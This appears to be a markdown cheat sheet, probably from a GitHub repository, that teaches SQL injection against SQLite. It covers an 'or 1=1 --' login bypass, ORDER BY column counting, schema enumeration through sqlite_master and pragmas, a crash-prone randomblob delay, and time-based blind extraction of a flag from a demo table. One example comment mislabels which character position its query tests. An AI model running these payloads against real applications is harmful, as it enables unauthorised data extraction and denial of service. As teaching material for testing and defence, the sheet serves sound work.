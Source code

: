 ## SQLite engine

* #### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
* ```sqlite_version()```
```
#example
select sqlite_version()
```

* #### String concatenation
You can concatenate together multiple strings to make a single string.
* ```||```
* ```CONCAT('Hello', ' ', 'World')```
```
#example
SELECT 'Hello' || ' ' || 'World';
SELECT CONCAT('Hello', ' ', 'World');
```

* #### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ```e```.
* ```substr('Hello World',2,1)```
```
#example
select substr(name,2,1) from demo;
```
* ### Finding the number of columns
ORDER BY is essential in SQL injection to determine the number of columns in a vulnerable query. It helps identify injectable columns for UNION SELECT attacks and can be combined with boolean or time-based techniques to extract data. This makes it a key step in structuring successful SQLi exploitation
```
#example
#Original Query
select id,name,role from users

#Identify number of columns
select id,name,role from users order by 3 -- the database engine will run it correctly, because the number of columns in the original query is 3 id, name and role

select id,name,role from users order by 4 -- the database engine will return an error, because there is not a column #4, this tell us that the original query is returning only 3 columns
```

* ### Extracts an specific row
For Blind SQL injection we have to ensures that only the first or a specific row of a query result is returned, making it useful for blind SQLi when extracting data character by character.
* ```LIMIT 1,1```
* ```LIMIT 1 OFFSET 1```
```
#example
select username from users LIMIT 0,1; -- Returns the first user
select username from users LIMIT 1,1; -- Returns the second user

select username from users order by 1 LIMIT 1 OFFSET 0 -- Returns the first user
select username from users order by 1 LIMIT 1 OFFSET 1 -- Returns the second user
```

* #### Length
You can extract the string length, this command allow to know the length for a specific row, Note that you need to combinate it with ```order by``` or ```Limit``` command for Blind SQL injection
* ```LENGTH('hello world')```
```
#example
select LENGTH(name) from demo;
```

* #### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
* ```--```
* ```/* comment */```
```
#example
select username from users where username='admin' or 1=1 -- {this will be ignored}' and password='s3cr3t';
```

* #### Database list
You can list the database that exist in the sqlite server.
```
#example
#Count databases
SELECT count(name) FROM pragma_database_list;

#Recover databases name
SELECT name FROM pragma_database_list;
```

* #### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
#example
#Count tables
SELECT count(name) FROM sqlite_master WHERE type = 'table';

#Recover tables name
SELECT name FROM sqlite_master WHERE type = 'table';

#Count columns from table 'demo'
SELECT count(name) FROM pragma_table_info('demo');

#Recover columns from table 'demo'
SELECT name FROM pragma_table_info('demo');
```


* #### Time delays
You can cause a time delay in the database when the query is processed. This can slow down execution by generating a large random blob (it may crash SQLite)
```
SELECT length(randomblob(900000000));
```

* #### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true. syntax ``` select case when (<your query here>) then RANDOMBLOB(10000000) ELSE 2 end```.
```
#example
/* create table secret (id int, flag varchar(50)) */
/* insert into secret values(1, 'flag{sp34rh34d}') */

/* This recover the first row from secret table and compare the length value if is greater than 5 */
SELECT case WHEN (LENGTH((select flag from secret order by 1 LIMIT 0,1)) > 5) then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),1,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),2,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare using hex value */
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),2,1)) ='6C') then RANDOMBLOB(10000000) ELSE 2 end
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),3,1)) =hex('a')) then RANDOMBLOB(10000000) ELSE 2 end

```




